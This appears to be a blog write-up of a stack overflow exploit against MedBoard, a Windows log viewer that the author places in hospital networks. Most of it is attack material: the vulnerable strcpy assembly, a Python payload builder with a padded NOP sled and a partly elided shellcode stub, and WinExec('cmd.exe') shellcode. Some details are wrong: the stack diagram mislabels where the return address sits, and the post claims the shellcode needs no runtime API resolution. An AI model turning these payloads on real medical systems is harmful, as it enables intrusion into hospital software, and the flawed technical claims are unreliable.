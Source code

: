 ```yaml
---
title: "Overflow in Silence: Stack Smash in MedBoard Log Viewer (x64)"
description: "A vulnerable logging buffer, a careless strcpy, and how I turned a medical app into my shell trigger."
date: '2025-04-20'
categories: ["Reverse Engineering Diaries"]
tags: ["Stack Overflow", "Shellcode", "x64", "Reverse Engineering", "Buffer Exploitation"]
header:
  image: "/images/medboard-strcpy-overflow.jpg"
---
```


# **Prologue — The Calm Before the Buffer Break**

I wasn't looking for trouble. Just bouncing between binaries on a slow weekend, half-interested in what outdated software still lingers in hospital networks. That’s when I stumbled on **MedBoard Log Viewer** — a quiet little utility meant to process and display logs in a fancy UI. But it was the backend log-loading routine that caught my eye. And once I spotted `strcpy`, I leaned forward.

I knew what I was looking at.

---

## **The Vulnerable Snippet — strcpy’s Reckless Dance**

Here’s the core of what made this program vulnerable:

```asm
lea     rdi, [rbp-400h]        ; local buffer (1024 bytes)
mov     rsi, [rbp+arg_0]       ; source string (external log input)
call    strcpy                 ; unsafe copy
```

No bounds. No checks. Just pure, unsafe copying from an external string into a 1KB buffer sitting on the stack.

It was an open invitation to overwrite the stack frame—including the return address.

---

## **Reverse Engineering Context — Stack Layout in Focus**

Let’s visualize the vulnerable function’s stack layout during runtime:

```text
rbp-400h ---------------------------> [ Local buffer (1024 bytes) ]
...
rbp-8   ---------------------------> [ Saved RBP ]
rbp     ---------------------------> [ Return address (to be overwritten) ]
```

By sending more than 0x400 bytes as log input, I could overflow the buffer. With 0x408 bytes, I reached the return address. And anything beyond that? I owned the instruction pointer.

---

## **Payload Design — Shellcode in the Shadows**

I wasn’t looking to crash the app. I wanted something clean. My plan? Use a simple payload to pop `cmd.exe`. Just a quiet proof-of-concept.

```asm
mov     rcx, offset cmd_str
call    WinExec

cmd_str db "cmd.exe", 0
```

It’s small, it’s silent, and it proves one thing: I’ve taken over execution flow.

---

## **Attack Flow — How the Exploit Went Down**

1. **User uploads crafted log file** → payload-laced input
2. **strcpy copies it blindly** → overflows buffer
3. **Saved return pointer overwritten** → points to our shellcode
4. **Function returns** → jumps to shellcode
5. **`WinExec("cmd.exe")` is triggered** → command prompt opens

The whole chain happened quietly, elegantly. No popups. No errors. Just control.

---

## **Payload Construction — Python Craft**

```python
payload  = b"A" * 0x408          # Padding to reach return address
payload += b"\x90" * 16         # NOP sled
payload += b"\x48\xB9..."      # Shellcode: WinExec("cmd.exe")

with open("pwnlog.txt", "wb") as f:
    f.write(payload)
```

Once this file was imported into the MedBoard app, my shellcode ran under its process space.

---

## **Extra Section — Shellcode Detail**

Here’s a breakdown of how the shellcode works internally:

```asm
section .text
global _start

_start:
    mov     rcx, message        ; RCX = pointer to "cmd.exe"
    call    WinExec             ; call WinExec("cmd.exe")
    ret

section .data
message db "cmd.exe", 0
```

The string is embedded within the payload. The call to `WinExec` happens from within the current process context—no need to resolve dynamically at runtime.

---

## **Post Exploit Thoughts — It’s Still 2003 Somewhere**

Honestly, I wasn’t expecting to see this kind of bug in 2025. But here we are—an application that’s probably still being used to archive hospital logs using code that belongs in the early 2000s.

From my seat, it’s just fascinating how many of these things keep popping up. A buffer on the stack, a call to `strcpy`, no bounds check—it's like riding a bike. You never forget how to pop shells with these.

---

## **Lessons Burned into Stack Frames**

- `strcpy` should have died in the 90s. If you’re still using it, you’re asking for this.
- Always check buffer sizes—especially with local buffers and user input.
- Stack overflows are still alive and kicking in native Windows binaries.
- Static reverse engineering reveals more than fuzzing sometimes—especially for deep stack-based bugs.

---

## **Final Words**

I didn’t break anything. Didn’t crash it. Didn’t go loud.

I just slipped in a log file that happened to carry a little bit more than logs.

And MedBoard? It ran it like it was meant to be there.
